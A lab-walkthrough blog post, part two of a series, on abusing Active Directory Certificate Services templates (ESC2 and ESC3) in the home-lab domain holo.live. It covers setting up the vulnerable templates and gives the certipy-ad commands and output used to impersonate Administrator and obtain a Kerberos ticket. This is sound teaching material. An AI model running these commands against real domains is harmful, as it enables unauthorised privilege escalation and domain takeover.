







import { Tweet, Vimeo, YouTube } from 'astro-embed';

## Introduction
---
どうもサメです! If you haven’t read the [first part of the blog series](https://zachwong02.github.io/blog/adcs-attacks-part-1/), check that out first. This post builds on the same terms, tools, and techniques we used there. If you’re already up to speed, today we’ll look at ESC2 and ESC3 attacks. I’m covering both in one post since they use the same exploitation method, though there are some differences we’ll go through. The lab setup is the same as in part one, still using `holo.live` as the Active Directory domain name.


<br></br>

## ESC2 Attack Lab Setup
---
### Configuring an ESC2 Vulnerable Certificate Template
---
Continuing from part one, ESC2 is a certificate template attack that happens when a Certificate Authority (CA) issues a certificate letting a user do whatever they want with it. This is possible because the template includes all the `EKUs (Extended/Enhanced Key Usage)`. To set up the lab, open `Certificate Authority` and duplicate a template. We went over how to do this in the first part of the series.

<br></br>



Rename the template to whatever you want. I named mine `ESC2-Vuln`. Make sure that in **"Subject Name"**, the **"Supply in request"** option is not selected. This prevents users from requesting a certificate they could use as another user.

<br></br>



For this part of the series, we need to change the **"Application Policies"** found under the **"Extensions"** tab of the certificate template. This is where we configure the EKUs for the certificate template. Click the **"Application Policies"** button, then select **"Edit"**. Choose **"Any Purpose"** from the available options. This tells the CA it can issue certificates with no restrictions on what users can do with them. After making the change, click **"Apply"**, then **"OK"**.

<br></br>

```bash
certipy-ad find \
	-u 'gawrgura@holo.live' \
	-p "Password1" \
	-dc-ip 192.168.234.149 \
	-vulnerable \
	-enabled \
	-ldap-scheme ldap
```

Once the new certificate has been published, as shown in the first part of the series, we can use `certipy-ad` to find vulnerable certificate templates.

<br></br>

```plaintext {"This basically means that we can use the Certificate Template to do whatever we want":7-8} {"This vulnerability will be explained next":46-47}
Template Name                       : ESC2-Vuln
Display Name                        : ESC2-Vuln
Certificate Authorities             : HOLOLIVE-CA
Enabled                             : True
Client Authentication               : True
Enrollment Agent                    : True

Any Purpose                         : True
Enrollee Supplies Subject           : False
Certificate Name Flag               : SubjectAltRequireUpn
Enrollment Flag                     : IncludeSymmetricAlgorithms
									  PublishToDs
									  AutoEnrollment
Private Key Flag                    : ExportableKey
Extended Key Usage                  : Any Purpose
Requires Manager Approval           : False
Requires Key Archival               : False
Authorized Signatures Required      : 0
Schema Version                      : 2
Validity Period                     : 1 year
Renewal Period                      : 6 weeks
Minimum RSA Key Length              : 2048
Template Created                    : 2025-08-23T09:24:08+00:00
Template Last Modified              : 2025-08-23T09:24:14+00:00
Permissions
  Enrollment Permissions
	Enrollment Rights               : HOLO.LIVE\Domain Admins
									  HOLO.LIVE\Domain Users
									  HOLO.LIVE\Enterprise Admins
									  HOLO.LIVE\Authenticated Users
  Object Control Permissions
	Owner                           : HOLO.LIVE\Administrator
	Full Control Principals         : HOLO.LIVE\Domain Admins
									  HOLO.LIVE\Enterprise Admins
	Write Owner Principals          : HOLO.LIVE\Domain Admins
									  HOLO.LIVE\Enterprise Admins
	Write Dacl Principals           : HOLO.LIVE\Domain Admins
									  HOLO.LIVE\Enterprise Admins
	Write Property Enroll           : HOLO.LIVE\Domain Admins
									  HOLO.LIVE\Domain Users
									  HOLO.LIVE\Enterprise Admins
[+] User Enrollable Principals      : HOLO.LIVE\Authenticated Users
									  HOLO.LIVE\Domain Users
[!] Vulnerabilities
  ESC2                              : Template can be used for any purpose.
  
  ESC3                              : Template has Certificate Request Agent EKU set.
```

From the output, we can see that the certificate template `ESC2-Vuln` is vulnerable to an ESC2 attack. However, we can also see that it is vulnerable to an ESC3 attack. We'll discuss why in the next section.

<br></br>

### Configuring an ESC3 Vulnerable Certificate Template
---


By duplicating another template and setting the **"Application Policies"** to **"Certificate Request Agent"** within **"Extensions"**, the certificate template becomes vulnerable to ESC3 attacks. An ESC3 attack allows a user with the vulnerable certificate to request other certificates on behalf of another user. Since the certificate template `ESC2-Vuln` has the **"Any Purpose"** EKU, attackers can exploit ESC2 using an ESC3 attack.

<br></br>

```plaintext {"This template is only vulnerable to ESC3 attacks":44-45}
Template Name                       : ESC3-Vuln
Display Name                        : ESC3-Vuln
Certificate Authorities             : HOLOLIVE-CA
Enabled                             : True
Client Authentication               : False
Enrollment Agent                    : True
Any Purpose                         : False
Enrollee Supplies Subject           : False
Certificate Name Flag               : SubjectAltRequireUpn
Enrollment Flag                     : IncludeSymmetricAlgorithms
									  PublishToDs
									  AutoEnrollment
Private Key Flag                    : ExportableKey
Extended Key Usage                  : Certificate Request Agent
Requires Manager Approval           : False
Requires Key Archival               : False
Authorized Signatures Required      : 0
Schema Version                      : 2
Validity Period                     : 1 year
Renewal Period                      : 6 weeks
Minimum RSA Key Length              : 2048
Template Created                    : 2025-08-23T09:28:22+00:00
Template Last Modified              : 2025-08-23T09:28:23+00:00
Permissions
  Enrollment Permissions
	Enrollment Rights               : HOLO.LIVE\Domain Admins
									  HOLO.LIVE\Domain Users
									  HOLO.LIVE\Enterprise Admins
									  HOLO.LIVE\Authenticated Users
  Object Control Permissions
	Owner                           : HOLO.LIVE\Administrator
	Full Control Principals         : HOLO.LIVE\Domain Admins
									  HOLO.LIVE\Enterprise Admins
	Write Owner Principals          : HOLO.LIVE\Domain Admins
									  HOLO.LIVE\Enterprise Admins
	Write Dacl Principals           : HOLO.LIVE\Domain Admins
									  HOLO.LIVE\Enterprise Admins
	Write Property Enroll           : HOLO.LIVE\Domain Admins
									  HOLO.LIVE\Domain Users
									  HOLO.LIVE\Enterprise Admins
[+] User Enrollable Principals      : HOLO.LIVE\Authenticated Users
									  HOLO.LIVE\Domain Users
[!] Vulnerabilities

  ESC3                              : Template has Certificate Request Agent EKU set.
```

We can check this by running `certipy-ad` to find vulnerable certificate templates again. You can see that the certificate template `ESC3-Vuln`, which is what I named the new template, is only vulnerable to an ESC3 attack.  

But you might wonder why this EKU even exists. It exists because some environments don't just have one Certificate Authority. They have at least one Root Certificate Authority (root CA) and one Sub-Certificate Authority (sub-CA). The root CA is the main trust anchor for certificates, and the sub-CA is the one that issues them. In a simple example, if an end user needs a certificate from the root CA, the sub-CA will help the user request that certificate from the root CA, but only if the user has the right permissions and authorisation.  

This is commonly used in scenarios where end users cannot request certificates themselves due to lack of access or permissions. However, you cannot perform domain authentication using these certificates, as the NTAuth store does not include the sub-CA certificate automatically.

<br></br>

## Exploiting The Vulnerable Certificate Templates
---


```bash
certipy-ad req \
	-u gawrgura@holo.live \
	-p "Password1" \
	-ca HOLOLIVE-CA \
	-template ESC2-Vuln \
	-dc-ip 192.168.234.149 \
	# if your Certificate Authority is on a separate server \
	-target CA.holo.live
```

First, we'll use our low-privilege user `gawrgura@holo.live` to request the vulnerable certificate template using `certipy-ad`. This will make us an agent to request additional certificates. If your CA is on a separate server, use the `-target` switch and provide the CA’s UPN as the argument.

<br></br>



```bash
certipy-ad req \
	-u 'gawrgura@holo.live' \
	-p 'Password1' \
	-dc-ip 192.168.234.149 \
	-ca HOLOLIVE-CA \
	-template 'User' \
	-on-behalf-of administrator \
	-pfx gawrgura.pfx \
	# if your Certificate Authority is on a separate server \
	-target CA.holo.live
```

Then, using the certificate we received from the CA, we can use `certipy-ad` again to request a certificate with the `User` certificate template on behalf of the Administrator. We just need to provide the CA name with the `-ca` switch, the template name with the `-template` switch, the user we want to request on behalf of with the `-on-behalf-of-administrator` switch, the certificate of the Certificate Request Agent with the `-pfx` switch, and finally the Domain Controller's IP address with the `-dc-ip` switch. 

<br></br>



After retrieving the Administrator's certificate from the CA, we can use `certipy-ad` along with the Administrator's certificate to request a Ticket-Granting Ticket from the Key Distribution Center (KDC).

<br></br>

If the exploitation seems too complex to grasp, let Gawr Gura demonstrate what we're essentially doing:



<br></br>

## Conclusion
---
In short, ESC2 and ESC3 are basically the same, with ESC2 relying on an ESC3 attack to exploit it. This shows how one attack can build on another. You’ll see this a lot in the series, since many ESC attacks try to create or modify a certificate template that’s vulnerable to an ESC1 attack. I know this post is on the shorter side, but the next one will be longer as we’ll dive into vulnerabilities involving PKI access control misconfigurations. Hopefully you’ll join Gawr Gura for that one, because another Hololive member will be showing up too! Till then:
<YouTube id="https://youtu.be/-0P2I8ZtH44?si=JDYsbZh1KWLAcuGK" /> 


## References
---
- https://www.keytos.io/blog/pki/what-is-a-subordinate-ca.html
- https://xbz0n.sh/blog/adcs-complete-attack-reference
- https://www.hackingarticles.in/ad-certificate-exploitation-esc2/
- https://posts.specterops.io/adcs-attack-paths-in-bloodhound-part-2-ac7f925d1547
- https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc3/
- https://medium.com/r3d-buck3t/adcs-attack-series-abusing-esc4-via-template-acls-for-privilege-escalation-98320f0da59a#907b

## Art Sources
---
- https://x.com/DDOLBANG11